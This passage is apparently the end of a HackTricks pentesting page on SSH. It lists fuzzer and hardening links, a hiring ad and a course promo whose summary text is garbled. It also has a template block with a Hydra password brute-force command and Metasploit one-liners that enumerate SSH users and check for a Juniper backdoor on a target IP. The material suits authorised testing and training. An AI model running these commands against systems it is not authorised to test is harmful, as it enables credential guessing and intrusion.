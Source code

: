 * [https://packetstormsecurity.com/files/download/71252/sshfuzz.txt](https://packetstormsecurity.com/files/download/71252/sshfuzz.txt)
* [https://www.rapid7.com/db/modules/auxiliary/fuzzers/ssh/ssh\_version\_2](https://www.rapid7.com/db/modules/auxiliary/fuzzers/ssh/ssh\_version\_2)

## References

* You can find interesting guides on how to harden SSH in [https://www.ssh-audit.com/hardening\_guides.html](https://www.ssh-audit.com/hardening\_guides.html)
* [https://community.turgensec.com/ssh-hacking-guide](https://community.turgensec.com/ssh-hacking-guide)

<img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## HackTricks Automatic Commands
```
Protocol_Name: SSH
Port_Number: 22
Protocol_Description: Secure Shell Hardening

Entry_1:
Name: Hydra Brute Force
Description: Need Username
Command: hydra -v -V -u -l {Username} -P {Big_Passwordlist} -t 1 {IP} ssh

Entry_2:
Name: consolesless mfs enumeration
Description: SSH enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/ssh/ssh_version; set RHOSTS {IP}; set RPORT 22; run; exit' && msfconsole -q -x 'use scanner/ssh/ssh_enumusers; set RHOSTS {IP}; set RPORT 22; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ssh/juniper_backdoor; set RHOSTS {IP}; set RPORT 22; run; exit'

```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:
